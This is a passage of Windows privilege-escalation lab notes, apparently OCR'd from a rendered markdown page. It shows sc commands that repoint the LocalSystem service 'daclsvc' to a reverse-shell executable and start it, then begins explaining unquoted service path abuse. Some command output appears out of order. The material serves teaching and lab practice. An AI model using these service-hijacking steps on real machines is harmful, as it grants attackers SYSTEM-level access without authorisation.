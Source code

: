 ```bash
        TAG                : 0
        DISPLAY_NAME       : DACL Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem


It seems that the service is running in System Privileges. (SERVICE_START_NAME : LocalSystem)

#Check the current status of the service:
sc query daclsvc

Reconfigure the service to use our reverse shell executable:
sc config daclsvc binpath= "\"c:\Privesc\rev.exe\""

Start a listener on Kali, and then start the service to trigger the exploit:
QueryServiceConfig SUCCESS                                                                                                  
                                                                                                                                 
SERVICE_NAME: daclsvc                                                                                                            
        TYPE               : 10  WIN32_OWN_PROCESS                                       


        BINARY_PATH_NAME   : "c:\Privesc\rev.exe"                                                                                
        LOAD_ORDER_GROUP   :                                                                                                     
        TAG                : 0                                                                                                   
        DISPLAY_NAME       : DACL Service                                                                                        
        DEPENDENCIES       :                                                                                                     
        SERVICE_START_NAME : LocalSystem 

net start daclsvc
```

## 2. Unquoted Service Path

Executables in windows can be run without using their extension. For eg. whoami.exe can be run by just whoami.
Some executables takes arguments, spearated by the spaces. eg.
```bash
someproge.exe arg1 arg2 arg3...
```
This behavior leads to the ambiguity when using the absolute paths that are unquoted and contain spaces. Consider the following unquoted path:
C:\Program Files\Some Dir\SomeProgram.exe
To us, this obviously runs SomeProgram.exe. To Windows, C:\Program could be the executable, with two arguments: “Files\Some” and “Dir\ SomeProgram.exe” Windows resolves this ambiguity by checking each of the possibilities in turn.
